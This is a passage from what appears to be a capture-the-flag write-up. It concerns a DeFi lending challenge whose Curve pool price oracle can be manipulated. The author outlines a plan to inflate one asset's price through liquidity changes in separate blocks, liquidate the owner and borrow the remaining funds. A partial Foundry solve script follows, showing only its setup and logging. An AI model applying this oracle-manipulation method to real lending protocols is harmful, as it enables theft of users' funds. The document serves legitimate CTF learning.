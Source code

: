 I found out that `price_oracle()` is volatile and dependent on `ma_last_time`, `ma_last_time`. And the `remove_liquidity_imbalance()` will make the pool imbalance. 

Thats very interesting, let me summarize what I wanted to do here. 
    - Increase price of asset 1 by adding liquidity and removing liquidity in different blocks
    - and liquidate owner and get his 10000 balance of asset0 and 
    - Borrow remaining asset 0 balance to achieve 20000 asset 0 by depositing asset 1

Thats seems simple but you need to go through a lot of grinding there. 

Can't explain more, just read my messy exploit script. 

{% note(clickable=true, header="Oracle.s.sol") %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleSolve is Script {
    Oracle public oracle = Oracle(0x0F113F8Cd37DdB04c09BBf45D6fafEAa6C7b09E6);
    address player = vm.envAddress("PLAYER");
    SimplePriceOracle public simplePriceOracle;
    CurvePriceOracle public curvePriceOracle;
    ICurve public curvePool;

/*
@external
@view
@nonreentrant('lock')
def price_oracle(i: uint256) -> uint256:
    return self._calc_moving_average(
        self.last_prices_packed[i],
        self.ma_exp_time,
        self.ma_last_time & (2**128 - 1)
    )
*/
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        simplePriceOracle = SimplePriceOracle(oracle.priceOracles(0));
        curvePriceOracle = CurvePriceOracle(oracle.priceOracles(1)); // curvePool Oracle is for asset 1 
        curvePool = ICurve(curvePriceOracle.curvePool());

        console.log("Player : ", oracle.player());
        console.log("assetCount : ", oracle.assetCount());

        console.log("-------------------------------------");
        (IERC20 assetToken0, uint256 totalDeposited0, uint256 totalBorrowed0, uint256 baseRate0 ) = oracle.assets(0);
        console.log("asset0 address: ", address(assetToken0));
        console.log("asset0 totalDeposited0 : ", totalDeposited0);
        console.log("asset0 totalBorrowed0 : ", totalBorrowed0);
        console.log("asset0 baseRate0 : ", baseRate0);
        console.log("asset0 priceOracle : ", oracle.priceOracles(0));

        console.log("-------------------------------------");
        (IERC20 assetToken1, uint256 totalDeposited1, uint256 totalBorrowed1, uint256 baseRate1 ) = oracle.assets(1);
        console.log("asset1 address: ", address(assetToken1));
        console.log("asset1 totalDeposited1 : ", totalDeposited1);
        console.log("asset1 totalBorrowed1 : ", totalBorrowed1);
        console.log("asset1 baseRate1 : ", baseRate1);
        console.log("asset1 priceOracle : ", oracle.priceOracles(1));
        
```